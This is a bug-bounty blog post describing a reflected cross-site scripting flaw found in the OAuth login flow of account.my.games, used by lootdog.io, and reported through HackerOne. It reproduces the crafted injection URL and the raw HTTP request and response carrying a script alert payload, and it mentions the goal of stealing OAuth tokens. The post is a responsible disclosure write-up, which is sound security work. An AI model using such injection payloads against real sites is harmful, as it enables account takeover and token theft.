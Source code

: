 ```yaml
---
layout: post
title: "Discovery of Reflected Cross-Site Scripting (XSS) Vulnerability in a Public Program"
date: 2021-02-08 12:00
categories: blog
---
```


Reflected Cross-site Scripting.

## Target

The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.

## Technical Analysis

The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.

An additional parameter was added to the end of the request's keyed value as follows:

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The resulting URL was crafted as follows:

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

Subsequently, the request containing the payload was sent and the response was observed.

### Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

### Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK 
Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

![img](/assets/images/blogs/XSS_lootdog/1.webp)

The payload can be seen successfully reflected in the HTTP response.

![img](/assets/images/blogs/XSS_lootdog/2.webp)

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.

Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).